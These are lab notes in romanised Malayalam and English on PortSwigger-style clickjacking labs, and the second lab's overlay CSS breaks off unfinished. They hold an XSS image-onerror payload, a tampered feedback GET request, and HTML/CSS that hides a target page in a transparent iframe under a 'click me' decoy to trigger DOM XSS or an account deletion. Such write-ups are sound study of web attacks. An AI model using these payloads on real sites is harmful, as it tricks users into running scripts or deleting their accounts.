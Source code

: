         Lab-4(Exploiting clickjacking vulnerability to trigger DOM-based XSS)
-->ivide feedback enna oru page aan test chynath
-->ivide feedback il 4 input aan kodukendath name,emal,subject,message.
-->ivide name il namal enth name kodukuno ath page il thazhe aayi reflect chyunund.so aa reflect chythath namal inspect chyumbol aa name html elementil store aayi kidakunund. means domil save aayikidakunund.so ee inputil evidengilum xss kandupidikan patiyal dom xss aan
-->name field il <img src="x" onerror="alert(3)" > enn koduthit baaki ella input ilum enthengilum koduth submit chyumbol namuk xss trigger aakunund
-->ivide 4 input und so athil ellathilum fill ayale submit button namal clickjack chyan patoo
-->so oru form submit chyuka enit nerthe pole change requets method click chyth /POST method /GET aaki send chyuka apol :
      `GET /feedback/submit?csrf=4RrNvd3UwxjKaufwOq8yM7Xw9t6Bdojj&name=josu&email=josu%40josu.com&subject=josdj&message=halloo`

ennan undavuka.ingane send adichal error varum so feedback/ in sheshamulla /submit enn path remove chythit chyuka apol response 200OK enn kanam so namuk iframe il thane src il url inte last aayi ee oro parameter inum value koduth nerthepole attack chyam
-->ini script chyam :
     <style>
	iframe {
		 position:relative;
            width:500px;
            height: 500px;
            opacity: 0.5;
            z-index: 2;
    }
	div {
		 position:absolute;
                 top:420px;
                 left:80px;
                 z-index: 1;
     }
</style>
<div>click me</div>
<iframe
src="https://0ae700310356d791c5d1da390093006b.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

-->ivide src ile value nok ella input ilum namal thane url il value alredy koduth ini victim click me enna wordil click chyumbol ee domxss print function trigger chyikum

==============================================================

                  Lab-5(Multistep clickjacking)
-->ivide namal login chyuka. avide page il delete account enna option und so ath click chyumbol direct delete aakila pakaram oru confirmation message kanikum so athil yes adichale delete aaku
-->so multistep aayan ivide deletion nadakunath.so athupole namal clickjacking chyanam enale nadaku
-->so rand button adupich click chythale delete aaku so aa rand buttonum vere position il aan varunath
-->athinanusarich namal script chyanam :
      <style>
	iframe {
		 position:relative;
             width:600px;
             height: 600px;
             opacity: 0.5;
             z-index: 2;
	}
   .firstClick, .secondClick {
		  position:absolute;
          top:500px;
          left:80px;
          z-index: 1; 
	}
   .secondClick {
		top:300;